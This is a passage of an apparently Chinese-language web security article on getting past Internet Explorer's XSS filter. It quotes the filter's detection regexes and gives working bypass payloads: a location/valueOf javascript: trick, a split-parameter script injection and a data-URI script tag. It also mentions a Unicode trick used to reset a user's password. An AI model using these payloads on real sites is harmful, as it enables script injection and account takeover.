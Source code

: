 ```
{(j|(&#x?0*((74)|(4A)|(106)|(6A));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(a|(&#x?0*((65)|(41)|(97)|(61));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(v|(&#x?0*((86)|(56)|(118)|(76));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(a|(&#x?0*((65)|(41)|(97)|(61));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(s|(&#x?0*((83)|(53)|(115)|(73));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(c|(&#x?0*((67)|(43)|(99)|(63));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*{(r|(&#x?0*((82)|(52)|(114)|(72));?))}([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(i|(&#x?0*((73)|(49)|(105)|(69));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(p|(&#x?0*((80)|(50)|(112)|(70));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(t|(&#x?0*((84)|(54)|(116)|(74));?))([\t]|(&((#x?0*(9|(13)|(10)|A|D);?)|(tab;)|(newline;))))*(:|(&((#x?0*((58)|(3A));?)|(colon;)))).}
{<st{y}le.*?>.*?((@[i\\])|(([:=]|(&#x?0*((58)|(3A)|(61)|(3D));?)).*?([(\\]|(&#x?0*((40)|(28)|(92)|(5C));?))))}
{[ /+\t\"\'`]st{y}le[ /+\t]*?=.*?([:=]|(&#x?0*((58)|(3A)|(61)|(3D));?)).*?([(\\]|(&#x?0*((40)|(28)|(92)|(5C));?))} 
```

观察下 IE9 到 IE10 的变化 ，可以看出 IE10 比 IE9 又更新了不少正则。

可见 IE 正则是 ATL 系列。Webkit 用 JSCRE（基于 pcre）。Chrome 早期也用 jscre，09 年以后采用 Irregexp。

通过正则可以测试出一些 bypass.

以 IE9 为例：

```
Regx1= \[\"\'\]\[ \]*(([^a-z0-9~_:\'\" ])|(in)).*?(location).*?= 
(老正则) 

Bypass : "+{valueOf:location, toString: [].join,0:'jav\x61script:alert\x280)',length:1}// location("http://xss.me/"); 
```

又比如 IE 的复参绕过：

```
param1=<script>prompt(9);/*&param2=*/</script> 
```

最近绕过 account.google.com 的 32 位编码绕过，地址：[`zone.wooyun.org/content/4448`](http://zone.wooyun.org/content/4448)。

有意思的是：感觉上 日本人喜欢用 unicode 的编码 上次见过有用 ᴮᴵᴳᴮᴵᴿᴰ （\u1d2e\u1d35\u1d33\u1d2e\u1d35\u1d3f\u1d30）重置 BIGBIRD 用户密码的。

美国人喜欢用类似这种变形

```
<script/src="data:text/javascript,o={window:'/XSS/'};prompt(o['window']);"></script> 
```

老毛子喜欢用各种特殊字符（以上个人见解）。    

### 0x03 进行 Fuzz

* * *

简单的浏览观察，并不能高效的进行 bypass.
